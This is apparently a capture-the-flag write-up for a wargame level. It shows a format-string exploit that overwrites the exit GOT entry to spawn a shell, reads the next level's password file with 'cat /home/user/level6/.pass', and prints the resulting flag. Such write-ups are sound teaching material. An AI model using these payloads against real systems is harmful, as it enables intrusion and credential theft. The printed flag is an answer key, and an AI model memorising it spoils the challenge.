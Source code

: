 # level5

This executable shows a function `o`, uncalled, that runs `system("/bin/sh")`

To solve, we'll have to call `o` anyway. How can we do that ?

The `GOT` (Global Offset Table) holds the addresses of included functions ; by changing a value there, we can call whatever we want.

The `n` function, called by `main`, runs `exit` at the end. We decide to replace `exit`'s GOT address with `o`.

## The value

Cutter reveals the address of `o`, our spoofed value : `0x080484a4`.

This can be broken down in four :
- `0x08` or `8`
- `0x04` or `4`
- `0x84` or `132`
- `0xa4` or `164`

## The address

Cutter's green bar at the top allows us to skim through the important part. At the end, we find `.got.plt` and go to it.

```
;-- exit:
0x08049838      .dword 0x080483d6  ; RELOC 32 exit
```

It reveals the address at which `exit` is referenced : `0x08049838`

Fortunately, its value, `0x080483d6`, already shares two bytes with the value we want, `0x080484a4`. We'll just need to change bytes #3 and #4.

## The buffer

Quick experimentation reveals the beginning of the buffer is at spot `%4$`.

Since our smallest `n` value is `132`, we can start with the addresses.

We write `132` bytes, including our two addresses at places #4 and #6, our `%6$hhn`, `32` more bytes to get to `164`, and finally our `%4$hhn`.

## The exploit

We turn that into something we can output in Python :

```
python -c 'print("\x38\x98\x04\x08____\x39\x98\x04\x08________________________________________________________________________________________________________________________%6$hhn________________________________%4$hhn")'
```

## The flag

Now we just have to format this to send it to our executable :

```
( python -c 'print("\x38\x98\x04\x08____\x39\x98\x04\x08________________________________________________________________________________________________________________________%6$hhn________________________________%4$hhn")' ; echo 'cat /home/user/level6/.pass' ) | ./level5
```

It works ! We get the `level5` flag :

```
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```